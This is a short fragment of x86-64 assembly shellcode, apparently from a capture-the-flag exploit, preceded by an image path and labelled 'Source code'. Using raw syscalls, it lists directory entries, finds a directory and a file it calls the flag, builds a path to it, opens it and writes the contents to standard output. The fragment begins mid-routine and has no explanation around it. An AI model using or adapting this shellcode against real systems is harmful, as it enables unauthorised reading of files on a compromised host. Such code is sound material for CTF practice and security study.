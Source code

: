 ```py
    mov rdi, rax
    mov rsi, rbp
    add rsi, 0x1000
    mov rdx, 4
    xor rax, rax
    syscall
    cmp rax, 4
    jne found_dir
pass1:
    add r15, r14
    jmp find_dir

found_dir:
    mov r13, r15
    sub rsi, 0x2000
    mov rdx, 0x1000
    mov rax, 78
    syscall
    
    mov r15, rsi
find_flag:
    mov rsi, r15
    mov r14, qword ptr[rsi + 0x10]
    and r14, 0xffff
    cmp byte ptr[rsi+0x12], 0x2e
    je pass2
    jmp found_flag
pass2:
    add r15, r14
    jmp find_flag
found_flag:
    add rsi, 0x12
    sub rsi, 0x23
    add r13, 0x12
    mov word ptr[rsi], 0x2f2e
    add rsi, 2
    mov r12, qword ptr[r13]
    mov qword ptr[rsi], r12
    mov r12, qword ptr[r13+0x8]
    mov qword ptr[rsi+0x8], r12
    mov r12, qword ptr[r13+0x10]
    mov qword ptr[rsi+0x10], r12
    mov r12, qword ptr[r13+0x18]
    mov qword ptr[rsi+0x18], r12
    mov byte ptr[rsi + 0x20], 0x2f
    sub rsi, 2
    xor rdi, rdi
    sub rdi, 100
    xor rdx, rdx
    xor r10, r10
    mov rax, 257
    syscall
    mov rdi, rax
    mov rsi, rbp
    add rsi, 0x1800
    mov rdx, 0x800
    xor rax, rax
    syscall
    mov rdi, 1
    mov rax, 1
    syscall
'''

```